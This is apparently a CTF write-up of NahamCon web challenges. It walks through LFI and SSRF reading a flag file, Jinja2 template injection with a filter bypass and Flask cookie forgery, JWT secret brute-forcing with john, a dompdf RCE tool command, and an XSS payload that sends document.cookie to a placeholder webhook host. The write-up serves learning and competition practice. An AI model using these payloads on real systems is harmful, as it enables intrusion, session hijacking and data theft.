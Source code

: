 ## Museum Challenge 

When accessing the web app, the following page is displayed![enter image description here](https://i.imgur.com/xF8hVwV.png)
While attempting to view an image using the following URL format: `http://challenge.nahamcon.com:31368/browse?artifact=angwy.jpg`, I noticed that the application calls the image through the `?artifact` parameter. Exploiting this behavior, I attempted a Local File Inclusion (LFI) attack by modifying the URL to access sensitive files such as `/.etc/passwd`. However, I encountered an obstacle as I couldn't directly read the flag. As a result, I started investigating the location of the application by exploring `/proc/self/cmdline`.
![enter image description here](https://imgur.com/QzxBY50)
reading source of application 

/home/museum/app.py


```
from flask import Flask, request, render_template, send_from_directory, send_file, redirect, url_for
import os
import urllib
import urllib.request

app = Flask(__name__)

@app.route('/')
def index():
    artifacts = os.listdir(os.path.join(os.getcwd(), 'public'))
    return render_template('index.html', artifacts=artifacts)

@app.route("/public/<file_name>")
def public_sendfile(file_name):
    file_path = os.path.join(os.getcwd(), "public", file_name)
    if not os.path.isfile(file_path):
        return "Error retrieving file", 404
    return send_file(file_path)

@app.route('/browse', methods=['GET'])
def browse():
    file_name = request.args.get('artifact')

    if not file_name:
        return "Please specify the artifact to view.", 400

    artifact_error = "<h1>Artifact not found.</h1>"

    if ".." in file_name:
        return artifact_error, 404

    if file_name[0] == '/' and file_name[1].isalpha():
        return artifact_error, 404
    
    file_path = os.path.join(os.getcwd(), "public", file_name)
    if not os.path.isfile(file_path):
        return artifact_error, 404

    if 'flag.txt' in file_path:
        return "Sorry, sensitive artifacts are not made visible to the public!", 404

    with open(file_path, 'rb') as f:
        data = f.read()

    image_types = ['jpg', 'png', 'gif', 'jpeg']
    if any(file_name.lower().endswith("." + image_type) for image_type in image_types):
        is_image = True
    else:
        is_image = False

    return render_template('view.html', data=data, filename=file_name, is_image=is_image)

@app.route('/submit')
def submit():
    return render_template('submit.html')

@app.route('/private_submission_fetch', methods=['GET'])
def private_submission_fetch():
    url = request.args.get('url')

    if not url:
        return "URL is required.", 400

    response = submission_fetch(url)
    return response

def submission_fetch(url, filename=None):
    return urllib.request.urlretrieve(url, filename=filename)

@app.route('/private_submission')
def private_submission():
    if request.remote_addr != '127.0.0.1':
        return redirect(url_for('submit'))

    url = request.args.get('url')
    file_name = request.args.get('filename')

    if not url or not file_name:
        return "Please specify a URL and a file name.", 400

    try:
        submission_fetch(url, os.path.join(os.getcwd(), 'public', file_name))
    except Exception as e:
        return str(e), 500

    return "Submission received.", 200

if __name__ == '__main__':
    app.run(debug=False, host="0.0.0.0", port=5000)
```
To exploit the `/private_submission_fetch` and `/private_submission` endpoints, you need to provide specific parameters. Based on the code you mentioned, the following payload can be constructed:

The URL parameter for `/private_submission_fetch` should be set to `http://127.0.0.1:5000/private_submission?url=file:///flag.txt&filename=test.txt`. This payload aims to visit the localhost (`127.0.0.1`) and access the `/private_submission` endpoint with the `url` parameter set to `file:///flag.txt` to read the flag file, and the `filename` parameter can be set to any desired value (in this case, `test.txt`).
``http://challenge.nahamcon.com:31368/private_submission_fetch?url=http%3A%2F%2F127.0.0.1%3A5000%2Fprivate_submission%3Furl%3Dfile%3A%2F%2F%2Fflag.txt%26filename%3Dtest.txt``



![enter image description here](https://i.imgur.com/xF8hVwV.png)


by opening test.txt will get the flag 
![enter image description here](https://i.imgur.com/re4xroQ.png)




## Obligatory - Medium 

sign up and log in  the web site looking to Task Created 

![enter image description here](https://i.imgur.com/4SPucDy.png)


After creating a task, the website displays a success message with the parameter "success" in the URL. For example, the URL might look like this: `http://challenge.nahamcon.com:30192/?success=Task%20created`.

I attempted to exploit the website's vulnerability to Server-Side Template Injection (SSTI) by injecting the expression `{{7*7}}` into the "success" parameter. As a result, the server processed the SSTI payload successfully, and the response displayed the value "49" (since 7 multiplied by 7 equals 49). This confirms the existence of an SSTI vulnerability.

Furthermore, I tried injecting the payload `{{config.items()}}` to retrieve information about the configuration. However, it seems that the application applies some filters or restrictions, preventing the complete execution of the payload.
![enter image description here](https://i.imgur.com/2kTIFmr.png)


great resource 
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti


The suggested payload involves replacing underscores (_) with the hexadecimal representation \x5f. The final payload would be as follows:
`{{self|attr("\x5f\x5fdict\x5f\x5f")}}`

This payload aims to access the `__dict__` attribute of the `self` object within the template context. By doing so, it retrieves the dictionary representing the attributes of the `self` object and renders it as the output in the template.


![enter image description here](https://i.imgur.com/eqbJvQ4.png)



We have a secret key: "&GTHN&Ngup3WqNm6q$5nPGSAoa7SaDuY" that needs to be used for signing. To sign a cookie value and obtain the desired output, we can use the following command:

`flask-unsign --sign --cookie "{'id':1}" --secret "&GTHN&Ngup3WqNm6q\$5nPGSAoa7SaDuY"



This command generates a signed value. In this case, the signed value is "eyJpZCI6MX0.ZJCZvA.Gv1dLHOlcliDKWFv8C1lehZT84o". By replacing the cookie value with this signed value, it should provide us with access to the flag.`
![enter image description here](https://i.imgur.com/dhha1rD.png)

## Marmalade 5
web challenge look like when entering any username 
![enter image description here](https://i.imgur.com/xSakPwD.png)
i noticed the web use jwt tokn trying common exploit but not works so i tried to genertate error give me this hint 
![enter image description here](https://i.imgur.com/zBC6IYu.png)
To brute force the remaining 5 characters using `john` and the `jwt.txt` file, you can use either of the following commands:

`john.exe jwt.txt --wordlist=wordlist.txt --format=HMAC-MD5`
or 
`john token --mask=fsrwjcfszeg?l?l?l?l?l --format=HMAC-MD5`

After running the command, you will obtain the remaining characters, which are `vsyfa`. To forge the correct token with the new secret, you need to replace the existing JWT token with the new one. The resulting token will be:

`
eyJhbGciOiAiTUQ1X0hNQUMifQ.eyJ1c2VybmFtZSI6ICJhZG1pbiJ9.fWg2jgheCvPc4WaNSmAVEQ==
`
Using this modified token, you can then proceed to achieve your desired goal or obtain the flag

![enter image description here](https://i.imgur.com/pfoAx44.png)


## Star Wars
after sign in blog page appear with commant section

![enter image description here](https://i.imgur.com/5RjLJya.png)
  
After attempting to comment, the command will be sent for admin review, potentially leading to XSS. The following payload, or another similar payload, can be utilized:
`<script> var i = new Image;
  i.src = "http://webhook/?" + document.cookie; </script>`
By inspecting the webhook, the admin's cookie can be identified. By replacing the cookie, the flag can be obtained. For further details, refer to the following link: [XSS Reflected Steal Cookie](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md).

## Stickers
This challenge the same machine i solved it in HTB once we open the challenge will get form need to complete then after complete the form will downlad the pdf 
![enter image description here](https://i.imgur.com/uGbp9u3.png)
after submit will get this request 

![enter image description here](https://i.imgur.com/l3Uiztk.png)

searhing for php pdf exploits and found this cool tool 
https://github.com/rvizx/CVE-2022-28368


python3 dompdf-rce.py --inject "GET request " --dompdf "challenge url "

rce and then the flag 
